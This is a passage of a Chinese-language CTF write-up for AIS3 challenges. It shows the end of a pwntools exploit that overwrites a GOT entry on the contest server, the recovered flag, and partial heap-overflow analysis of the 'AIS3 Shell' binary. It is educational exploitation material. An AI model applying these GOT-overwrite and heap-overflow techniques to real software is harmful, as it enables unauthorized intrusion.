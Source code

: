 ``` python
else:
    c = remote('quiz.ais3.org', 10102)


space = 0x0000000000405000 - 0x100
systemgot = 0x404028
scanfgot = 0x404040

c.sendlineafter('Address:', str(systemgot))
c.sendlineafter('Value:', str(0x401050))

c.interactive()
c.close()

```

```
AIS3{Y0u_know_h0w_1@2y_b1nd1ng_w@rking}
```

## AIS3 Shell (solved)

```
Canary                        : ✓
NX                            : ✓
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

由於有程式碼，可以直接編譯 asan 來抓漏洞

``` bash
gcc -g ais3shell.c  -fsanitize=address
```

可以抓到 heap overflow ，不過懷疑是 one null byte

程式好像有自己的記憶體池，程式沒有 free，不過程式似乎沒有檢查越界，因此可以觸發越界 `MemAlloc()` ，而負數傳入之後，size_t 轉換可以幾乎無窮大的數值，不過會受到 `% 0x100` 的限制 ，或許可以破壞原始的 shell，這裡需要找到一個數值，`read_str()` 當中如果 null buffer 會觸發 assert 而停止。

想辦法第二次 overflow 後蓋寫先前定義的 commend ，下面是依序 `MemAlloc()` 時列出 heap chunk 的位置，代表有可能在之後蓋寫到先前的數值。

1. 0x000055e4c74cc2a0 cmd name

2. 0x000055e4c74d06a0 cmd script

3. 0x000055e4c74cf490 overflow cmd name

如果成功蓋寫， run command 之後就可以看到 command not found
